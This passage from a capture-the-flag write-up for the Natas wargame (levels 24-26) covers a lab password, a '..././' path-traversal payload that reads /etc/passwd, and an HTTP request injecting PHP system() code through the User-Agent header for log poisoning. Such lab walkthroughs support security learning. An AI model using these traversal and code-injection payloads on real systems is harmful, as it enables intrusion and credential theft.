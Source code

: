 ```html
passwd[]=
```

Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c

### lvl 25-26

![/assets/images/natas/Untitled%207.png](/assets/images/natas/Untitled%207.png)

By looking at the source code we can see there are two checks strstr() and str_replace()

strstr() can be bypassed easily as it gives everything after first match. and strreplace replaces every ../ with "" so we can craft our input as

```html
lang=..././..././..././..././..././..././..././..././..././etc/passwd
```

We have LFI.

But we cant read password file from /etc/natas_webpass/natas26.

![/assets/images/natas/Untitled%208.png](/assets/images/natas/Untitled%208.png)

But looking at the above code, we can read the log file. So we can inject php code in http-user-agent and the log file executes it while we access it through LFI. So we make a request with 

```html
POST /index.php HTTP/1.1
Host: natas25.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Upgrade-Insecure-Requests: 1
User-Agent: <?php system("cat /etc/natas_webpass/natas26") ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utma=176859643.1991032151.1593787332.1593787332.1593787332.1; __utmc=176859643; __utmz=176859643.1593787332.1.1.utmcsr=natas22-experimenter.natas.labs.overthewire.org|utmccn=(referral)|utmcmd=referral|utmcct=/; PHPSESSID=5ls5ag19m6nja8k9lkhrdhgii2
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 124

```